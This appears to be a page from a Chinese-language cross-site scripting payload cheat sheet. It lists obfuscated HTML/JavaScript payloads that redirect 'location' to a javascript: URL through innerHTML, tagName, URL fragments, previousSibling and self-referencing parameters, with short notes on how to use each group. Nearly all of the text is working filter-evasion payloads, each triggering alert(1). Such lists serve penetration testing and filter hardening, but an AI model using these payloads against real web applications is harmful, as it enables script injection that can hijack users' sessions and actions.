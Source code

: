 **通过更简单的操作实现重定向到 JavaScript 伪协议的payload。**

```javascript
<j/onmouseover=location=innerHTML>javascript:alert(1)//
<iframe id=t:alert(1) name=javascrip onload=location=name+id>
```



## Location 与 URL 片段

**需要使用带有未编码 `#` 符号的payload。如果在 POST 请求中使用，URL 片段必须用于 action URL()**

```javascript
<javascript/onmouseover=location=tagName+innerHTML+location.hash>:/*hoverme!
</javascript>#*/alert(1)
<javascript/onmouseover=location=tagName+innerHTML+location.hash>:'hoverme!
</javascript>#'-alert(1)
<javascript:'-`/onmouseover=location=tagName+URL>hoverme!#`-alert(1)
<j/onmouseover=location=innerHTML+URL>javascript:'-`hoverme!</j>#`-alert(1)
<javas/onmouseover=location=tagName+innerHTML+URL>cript:'-`hoverme!</javas>#`-alert(1)
<javascript:/onmouseover=location=tagName+URL>hoverme!#%0Aalert(1)
<j/onmouseover=location=innerHTML+URL>javascript:</j>#%0Aalert(1)
<javas/onmouseover=location=tagName+innerHTML+URL>cript:</javas>#%0Aalert(1)
```



## Location 与前置 Alert

```javascript
`-alert(1)<javascript:`/
onmouseover=location=tagName+previousSibling.nodeValue>hoverme!
`-alert(1)<javas/
onmouseover=location=tagName+innerHTML+previousSibling.nodeValue>cript:`hoverme!
<alert(1)<!--/onmouseover=location=innerHTML+outerHTML>javascript:1/*hoverme!*/
</alert(1)<!-->
<j/1="*/""-alert(1)<!--/onmouseover=location=innerHTML+outerHTML>
javascript:/*hoverme!
*/"<j/1=/alert(1)//onmouseover=location=innerHTML+
previousSibling.nodeValue+outerHTML>javascript:/*hoverme!
```



## Location 与自身 URL（最后一种仅适用于 Firefox）

**需要将 `[P]` 替换为接收输入的漏洞参数。在 URL 中，`&` 需要编码为 `%26`。**

```javascript
<svg id=?[P]=<svg/onload=alert(1)+ onload=location=id>
<j/onmouseover=location=textContent>?[P]=&lt;svg/onload=alert(1)>hoverme!</j>
<j/onmouseover=location+=textContent>&[P]=&lt;svg/onload=alert(1)>hoverme!</j>
<j&[P]=<svg+onload=alert(1)/onmouseover=location+=outerHTML>hoverme!
</j&[P]=<svg+onload=alert(1)>
&[P]=&lt;svg/onload=alert(1)><j/
onmouseover=location+=document.body.textContent>hoverme!</j>
```

